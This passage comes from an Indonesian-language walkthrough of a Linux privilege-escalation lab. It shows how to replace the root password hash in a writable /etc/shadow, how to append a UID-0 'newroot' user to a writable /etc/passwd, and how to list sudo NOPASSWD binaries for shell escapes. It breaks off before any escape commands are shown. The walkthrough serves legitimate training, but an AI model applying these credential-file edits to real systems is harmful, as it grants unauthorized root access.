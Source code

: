 ```shell
mkpasswd -m sha-512 password
# $6$...
```

2. selanjutnya edit hash root di `/etc/shadow` dengan yang baru

```shell
nano /etc/shadow

> root:<hash baru>:17298:0:99999:7:::
```

# Task 5 : Weak File Permissions - Write /etc/passwd

`/etc/passwd` dalam target ini juga dapat menjadi target privesc, karena meskipun memang readable untuk public, namun tidak seharusnya writeable. beberapa versi linux masih tetap bisa untuk storing password hash di `/etc/passwd`.

1. buat password

```shell
openssl passwd newpass
```

2. copy row root dan buat user root baru di paling bawah

```shell
nano /etc/passwd
```

```shell
newroot:<isi password>:0:0:root:/root:/bin/bash
```

3. setelah diganti, kita dapat login ke root user baru. dan kita bisa melakukan command `id` dan menjawab pertanyaan di Task 5 ini.

# Task 6 : Sudo - Shell Escape Sequences

selanutnya adalah memanfaatkan service yang dapat di run oleh root user tanpa memerlukan password. kita dapat cek dengan cara

```shell
sudo -l
...
# User user may run the following commands on this host:
    # (root) NOPASSWD: /usr/sbin/iftop
    # (root) NOPASSWD: /usr/bin/find
    # (root) NOPASSWD: /usr/bin/nano
    # (root) NOPASSWD: /usr/bin/vim
    # (root) NOPASSWD: /usr/bin/man
    # (root) NOPASSWD: /usr/bin/awk
    # (root) NOPASSWD: /usr/bin/less
    # (root) NOPASSWD: /usr/bin/ftp
    # (root) NOPASSWD: /usr/bin/nmap
    # (root) NOPASSWD: /usr/sbin/apache2
    # (root) NOPASSWD: /bin/more
```

